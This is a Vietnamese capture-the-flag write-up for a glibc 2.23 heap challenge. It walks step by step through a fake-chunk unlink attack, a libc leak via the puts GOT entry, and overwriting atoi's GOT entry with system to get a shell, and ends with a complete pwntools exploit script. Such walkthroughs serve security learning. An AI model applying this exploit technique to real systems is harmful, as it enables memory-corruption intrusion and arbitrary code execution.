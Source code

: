 # Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
RUNPATH:  b'.'
```

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn4_ul` 

-> `unlink_heap_exploit`

# 2. Khai thác

- Bước 1: Tạo 5 chunk có kích thước lớn để đưa vào 

```
create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")
```

Chunk cấp phát của chúng ta cần > 0x78 để khi free có thể vào được `unsortedbin`

- Bước 2: Tạo 1 fake chunk

```
store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)
edit(3, 0x90, payload)
delete(4)
```

Chúng ta tạo fake chunk tại chunk_3

Khi đó fake chunk tại chunk 3 sẽ trông như sau:

![fake.png](images/fake.png)

Với `0x6020e0` là fd hay forwarding pointer dùng để trỏ tới chunk tiếp theo trong free list. 

Sau đó ta free fake chunk đó tại vị trí thứ 4:

![fake2.png](images/fake2.png)

Nhìn vào free list `unsortedbin`

Chunk tiếp theo là `0x78a1c1` (địa chỉ của fake_chunk ta vừa giải phóng). Khi đó địa chỉ `0x6020e0` sẽ trỏ đến `0x78a1c1`.

![fake1.png](images/fake1.png)

Tiếp theo nhìn vào địa chỉ `0x78a1c1` là phần data của chunk thứ 3

-> Chúng ta sẽ sửa data chunk_3 và ghi vào địa chỉ `0x6020e0` 

- Bước 3: Leak libc_base:

```
edit(3, 0x8, p64(0x602020))
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))
```
Tại sao chúng ta lại ghi vào `0x6020e0`?

![store1.png](images/store1.png)

Đây là địa chỉ của `store`. Nơi đây lưu địa chỉ của chunk's data

Và đầu của địa chỉ này là data của chunk_0.

Khi ta ghi đè vào đây bằng `0x602020` là địa chỉ của `puts@got.plt` 

-> Khi show heap_0 sẽ lấy giá trị tại đây ra và leak được libc.

- Bước 4: Ghi đè `system` vào `atoi_got`

```
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")
```

Ở hàm edit_heap() có 1 hàm readInt() mà return atoi(nptr), ở đây `nptr` là ta nhập vào 

-> Ghi đè atoi() thành system() rồi nhập `/bin/sh` để thực thi.

Như đã nói ở trên, ở vị trí data của chunk_3 là ta sẽ ghi được vào địa chỉ `0x6020e0`. Data chunk_0 ta sẽ có địa chỉ tại `0x6020e0`

-> Khi đó ta ghi data chunk_0 vào data chunk_3

-> Ghi địa chỉ hàm system() vào atoi_got

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn4_ul_patched', checksec=False)

p = process("./pwn4_ul_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:", str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:", str(index))
    p.sendlineafter(b"Input newsize:", str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendafter(b"Input data:",data)

def delete(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:", str(idx))

create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")

store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)

edit(3, 0x90, payload)

delete(4)								#free(4) but 3 in unsoftedbin because of payload made the prog think the 3 th is unsortedbin

#### stage3: leak libc ###########################################################
edit(3, 0x8, p64(0x602020))				#now all we edit chunk(3) is edit(0x6020e0). 0x6020e0 is the address of all chunk's data address
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))

#### stage 4 overwrite malloc with onegadget#######
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")

p.interactive()
```


